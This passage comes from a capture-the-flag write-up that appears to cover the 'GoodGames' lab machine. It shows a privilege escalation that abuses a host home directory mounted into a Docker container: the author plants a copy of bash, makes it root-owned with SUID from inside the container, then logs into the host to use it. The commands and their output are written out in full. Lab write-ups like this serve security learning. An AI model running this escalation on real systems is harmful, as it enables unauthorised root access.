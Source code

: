 Time for more enumeration.

What we missed as root in docker environment is:

```bash
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
/dev/sda1 on /etc/resolv.conf type ext4 (rw,relatime,errors=remount-ro)
/dev/sda1 on /etc/hostname type ext4 (rw,relatime,errors=remount-ro)
/dev/sda1 on /etc/hosts type ext4 (rw,relatime,errors=remount-ro)
```

```bash
root@3a453ab39d3d:~# ls -la /home/augustus/
total 1232
drwxr-xr-x 2 1000 1000    4096 Jul 31 10:24 .
drwxr-xr-x 1 root root    4096 Nov  5  2021 ..
lrwxrwxrwx 1 root root       9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000    3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000     807 Oct 19  2021 .profile
-rwxr-xr-x 1 1000 1000 1234376 Jul 31 10:24 bash
-rw-r----- 1 root 1000      33 Jul 31 08:44 user.txt
```

### Abusing Permissions

That the user's home directory is mounted inside the docker container from the main system. We are root inside the docker environment. So if we have anything in the user directory we can change it's permission to be owned by root and make it so that any user can execute it as root. 

Let's copy `/bin/bash` as augustus on SSH.

```bash
cp /bin/bash .
exit
```

Then from docker: 

```bash
chown root:root bash
chmod 4755 bash
```

4755 means:

- The binary is owned by root (or another user),
- When any user executes it, it runs with root's privileges (if owned by root),
- But users can’t modify the binary (unless they’re root),
- The s in rws indicates SUID is active.

Now:

```bash
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 31 11:19:58 2025 from 172.19.0.2
augustus@GoodGames:~$ ls -la
total 1232
drwxr-xr-x 2 augustus augustus    4096 Jul 31 11:24 .
drwxr-xr-x 3 root     root        4096 Oct 19  2021 ..
-rwsr-xr-x 1 root     root     1234376 Jul 31 11:24 bash
```